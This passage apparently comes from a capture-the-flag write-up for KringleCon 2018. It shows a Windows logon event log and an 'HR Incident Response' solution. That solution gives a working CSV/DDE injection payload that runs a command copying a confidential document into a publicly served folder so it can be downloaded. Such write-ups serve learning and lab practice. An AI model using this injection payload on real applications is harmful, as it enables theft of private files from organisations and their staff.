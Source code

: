 Summary of log entry:

``` xml
<Event
	xmlns="http://schemas.microsoft.com/win/2004/08/events/event">
	<System>
		<Provider Name="Microsoft-Windows-Security-Auditing" Guid="{54849625-5478-4994-a5ba-3e3b0328c30d}"></Provider>
		<TimeCreated SystemTime="2018-09-10 13:05:03.702278"></TimeCreated>
		<EventRecordID>240171</EventRecordID>
		<Correlation ActivityID="{71a9b66f-4900-0001-a8b6-a9710049d401}" RelatedActivityID=""></Correlation>
		<Computer>WIN-KCON-EXCH16.EM.KRINGLECON.COM</Computer>
		<Security UserID=""></Security>
	</System>
	<EventData>
		<Data Name="SubjectUserName">WIN-KCON-EXCH16$</Data>
		<Data Name="SubjectLogonId">0x00000000000003e7</Data>
		<Data Name="TargetUserSid">S-1-5-21-25059752-1411454016-2901770228-1156</Data>
		<Data Name="TargetUserName">minty.candycane</Data>
		<Data Name="TargetDomainName">EM.KRINGLECON</Data>
		<Data Name="WorkstationName">WIN-KCON-EXCH16</Data>
		<Data Name="LogonGuid">{d1a830e3-d804-588d-aea1-48b8610c3cc1}</Data>
		<Data Name="ProcessName">C:\Windows\System32\inetsrv\w3wp.exe</Data>
		<Data Name="IpAddress">172.31.254.101</Data>
		<Data Name="IpPort">38283</Data>
	</EventData>
</Event>
```

----------

# 7. HR Incident Response
**The answer is `Fancy Beaver`.**

## Careers Website
CSV payload is:

* `=CMD|'/c copy C:\candidate_evaluation.docx C:\careerportal\resources\public\myfile.txt'!A1`

We need to do CSV injection on https://careers.kringlecastle.com/ and access a file.

To exfiltrate the file, we need to copy it to a publicly accessible URL. We do not need to use our own server, the 404 page gives us the location of a publicly accessible directory along with its internal address.

```
Publicly accessible file served from:
C:\careerportal\resources\public\ not found......

Try:
https://careers.kringlecastle.com/public/'file name you are looking for'
```
